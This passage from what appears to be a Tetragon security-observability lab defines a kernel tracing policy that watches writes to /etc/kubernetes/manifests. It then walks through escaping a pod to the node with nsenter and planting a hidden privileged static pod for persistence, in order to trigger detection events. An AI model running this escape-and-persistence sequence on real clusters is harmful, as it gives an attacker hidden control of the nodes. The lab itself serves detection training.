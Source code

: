   - call: "security_file_permission"
    syscall: false
    args:
    - index: 0
      type: "file" # (struct file *) used for getting the path
    - index: 1
      type: "int" # 0x04 is MAY_READ, 0x02 is MAY_WRITE
    selectors:
    - matchArgs:      
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"

kubectl apply -f sys-write-etc-kubernetes-manifests.yaml

Now let's try to create foothold and persistence on the node. First, in >_ Terminal 1 let's monitor the generated Security Observability events like we did before.

kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator

In >_ Terminal 2 let's kubectl exec into the sith-infiltrator:
kubectl exec -it sith-infiltrator -- /bin/bash

and then enter to the node again:
nsenter -t 1 -a bash

Now that you have unfettered access to the node resources, let's cd into the /etc/kubernetes/manifests directory and check the existing content:
cd /etc/kubernetes/manifests/
ls -la

Then drop a custom hidden PodSpec:
cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
